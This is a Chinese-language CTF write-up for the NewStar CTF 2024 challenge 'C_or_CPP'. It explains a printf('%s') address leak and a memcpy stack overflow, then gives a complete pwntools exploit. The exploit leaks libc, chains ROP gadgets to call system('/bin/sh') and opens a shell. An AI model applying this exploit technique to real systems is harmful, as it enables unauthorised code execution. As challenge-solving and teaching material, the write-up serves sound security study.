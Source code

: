 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# C_or_CPP

![运行程序](/assets/images/wp/2024/week5/c_or_cpp_1.png)

首先拖入 IDA 分析，这是一个用 C 和 CPP 来实现相同操作对比的程序

题目存在两个漏洞

一个是位于功能 2 里面的

```cpp
  printf("C String input: ");
  read(0, buf, 0x50uLL);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "C++ String: ");
  v5 = std::operator<<<char>(v4, v13);
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  printf("C String: %s\n", buf);
```

一个是位于功能 5 里面的

```cpp
  std::operator>><char>(&std::cin, v4);
  v2 = (const void *)std::string::c_str(v4);
  memcpy(dest, v2, 0x100uLL);
```

第一个漏洞首先 read 了 `0x50` 个字符，乍一看可能没有发现溢出，但结合上后面的 `printf("%s")`，即可实现泄露地址

<Container type='tip'>

`printf("%s")` 会一直输出直到遇到 `\x00`
</Container>

第二个漏洞先使用 `cin` 输入了字符串，再将它 memcpy 到 `dest` 字符串中，而 `dest` 是存放在栈上的，因此存在栈溢出

因为程序是使用 `g++` 编译的，相对可用的 gadget 会相当少，所以靠第一次泄露的地址，用 libc 的 gadget 来实现 ROP

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

k = 0
if k:
    addr = '127.0.0.1:9999'
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./C_or_CPP')
elf = ELF('./C_or_CPP')
libc = ELF('./libc.so.6')

def debug():
    gdb.attach(p, 'b *0x402F8F\nb *0x402A22\nc\n')

# debug()
sla(b'Please choose an option:', b'2')
sla(b'C++ String input:', b'inkey')
sa(b'C String input:', b'a' * 0x50)
ru(b'a' * 0x50)
libc_base = uu64(r(6)) - 0x4B1040
# libc_base = uu64(r(6)) - 0x4BB040
print(f"libc_base --> 0x{libc_base :x}")

rdi = libc_base + 0x000000000002A3E5  #: pop rdi; ret;
rsi = libc_base + 0x000000000016333A  #: pop rsi; ret;
rdx_rbx = libc_base + 0x00000000000904A9  #: pop rdx; pop rbx; ret;
bin_sh = libc_base + 0x001D8678
system = libc_base + libc.sym.system
# pause()

sla(b'Please choose an option:', b'5')
payload = b'a' * 0x48 + flat([rdi, bin_sh, rsi, 0, rdx_rbx, 0, 0, system])
sla(b'Try to say something:', payload)

p.interactive()
```
